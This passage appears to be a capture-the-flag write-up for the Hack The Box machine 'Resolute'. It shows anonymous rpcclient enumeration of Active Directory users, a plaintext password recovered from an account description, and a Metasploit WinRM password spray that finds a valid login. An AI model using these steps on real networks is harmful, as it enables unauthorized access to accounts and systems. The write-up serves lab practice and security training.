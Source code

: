 
    DOMAIN: megabank.local

2. Enum domain users with rpcclient
    root@p3:/opt/htb/machines/resolute# rpcclient -U "" resolute.htb
    Enter WORKGROUP\'s password:
    rpcclient $> enumdomusers
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[ryan] rid:[0x451]
    user:[marko] rid:[0x457]
    user:[sunita] rid:[0x19c9]
    user:[abigail] rid:[0x19ca]
    user:[marcus] rid:[0x19cb]
    user:[sally] rid:[0x19cc]
    user:[fred] rid:[0x19cd]
    user:[angela] rid:[0x19ce]
    user:[felicia] rid:[0x19cf]
    user:[gustavo] rid:[0x19d0]
    user:[ulf] rid:[0x19d1]
    user:[stevie] rid:[0x19d2]
    user:[claire] rid:[0x19d3]
    user:[paulo] rid:[0x19d4]
    user:[steve] rid:[0x19d5]
    user:[annette] rid:[0x19d6]
    user:[annika] rid:[0x19d7]
    user:[per] rid:[0x19d8]
    user:[claude] rid:[0x19d9]
    user:[melanie] rid:[0x2775]
    user:[zach] rid:[0x2776]
    user:[simon] rid:[0x2777]
    user:[naoki] rid:[0x2778]

    Using queryuser, only Administrator has a logon_count higher then 0. However we find credentials in the description
    for user Marko Novak (marko:Welcome123!)

    rpcclient $> queryuser 0x457
    	User Name   :	marko
    	Full Name   :	Marko Novak
    	Description :	Account created. Password set to Welcome123!

3. Using evil-winrm we are unable to login with the found credentials. Maybe there's another user with the same password.
   Enumerate this using msf module scanner/winrm/winrm_login and user-list of all found users.

   msf5 auxiliary(scanner/winrm/winrm_login) > run
    [-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\Administrator:Welcome123! (Incorrect: )
    ..
    [-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\claude:Welcome123! (Incorrect: )
    [+] 10.10.10.169:5985 - Login Successful: megabank.local\melanie:Welcome123!
    [-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\zach:Welcome123! (Incorrect: )
    --
